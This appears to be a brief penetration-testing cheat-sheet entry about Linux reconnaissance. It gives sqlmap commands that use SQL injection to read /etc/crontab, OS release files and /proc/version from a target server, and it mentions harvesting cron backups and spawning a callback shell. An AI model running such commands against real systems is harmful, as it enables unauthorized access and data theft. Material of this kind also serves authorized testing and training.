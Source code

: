 # Linux

Search Tag(s): #sqlmap #enumeration-and-discovery #privilege-escalation

CronJobs may contain backup files that is worth **harvesting the data**. Moreover, there is a possible attack vector to spawn a callback shell. Be on the lookout.

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/crontab"
```

Enumerate Linux kernel for potential exploits.

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/lsb-release"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/os-release"

$ sqlmap -u "<URL>" --random-agent --file-read="/proc/version"
```